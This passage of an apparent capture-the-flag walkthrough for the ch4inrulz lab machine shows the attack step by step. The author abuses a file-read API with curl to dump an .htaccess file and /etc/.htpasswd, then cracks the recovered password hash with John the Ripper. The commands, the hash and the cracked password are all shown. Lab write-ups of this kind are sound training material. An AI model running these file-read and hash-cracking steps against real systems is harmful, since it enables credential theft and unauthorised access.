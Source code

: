 {% highlight text %}
root@kali:~# curl -X POST -d file=/var/www/development/.htaccess 10.0.0.14:8011/api/files_api.php

<head>
  <title>franks website | simple website browser API</title>
</head>

AuthUserFile /etc/.htpasswd
AuthName "Frank Development Area"
AuthType Basic
AuthGroupFile /dev/null

<Limit GET POST>

require valid-user

</Limit>
{% endhighlight %}

Great, let's get the `.htpasswd` file with the password to protected area. 

{% highlight text %}
root@kali:~# curl -X POST -d file=/etc/.htpasswd 10.0.0.14:8011/api/files_api.php

<head>
  <title>franks website | simple website browser API</title>
</head>

frank:$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0
{% endhighlight %}

Now we can crack the password with `johntheripper`. 

{% highlight text %}
root@kali:~# echo 'frank:$apr1$1oIGDEDK$/aVFPluYt56UvslZMBDoC0' > pass.txt
root@kali:~# john pass.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 AVX 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
frank!!!         (frank)
1g 0:00:00:00 DONE 1/3 (2018-08-14 09:10) 33.33g/s 6266p/s 6266c/s 6266C/s frank!!..fr4nk
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

Not a hard password to brute force. 

![Development Area](/img/ch4inrulz/development.png){:class="img-responsive center-block"}
